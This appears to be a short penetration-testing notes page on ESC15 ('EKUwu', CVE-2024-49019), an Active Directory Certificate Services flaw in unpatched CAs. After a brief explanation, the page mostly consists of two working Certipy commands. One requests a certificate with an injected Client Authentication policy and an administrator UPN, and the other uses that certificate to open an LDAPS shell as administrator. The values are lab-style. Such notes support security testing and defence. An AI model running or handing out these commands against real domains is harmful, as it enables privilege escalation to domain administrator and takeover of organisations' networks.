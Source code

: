 # ESC15

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**ESC15**</mark>, also known by the community name <mark style="color:yellow;">**"EKUwu"**</mark> (research by Justin Bollinger from TrustedSec) and tracked as **CVE-2024-49019**, describes a vulnerability affecting unpatched CAs. It allows an attacker to inject arbitrary Application Policies into a certificate issued from a Version 1 (Schema V1) certificate template. If CA is not patched, it could include these Attacker-given policies and grant certificate with unintented capabilities.

## <mark style="color:yellow;">EXPLOITATION</mark>

> I used Scenario A

#### **Request a certificate, injecting "Client Authentication" Application Policy and target UPN.**

```bash
certipy req -u 'netrunner@arasaka.local' -p 'P@ssword123' -dc-ip '13.13.13.13' -target 'CA.ARASAKA.LOCAL' -ca 'ARASAKA-CA' -template 'WebServer' -upn 'administrator@arasaka.local' -sid 'S-1-5-21-...-500' -application-policies 'Client Authentication'
```

#### Use certificate to get a LDAPS shell

```bash
certipy auth -pfx 'administrator.pfx' -dc-ip '13.13.13.13' -ldap-shell
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu" %}
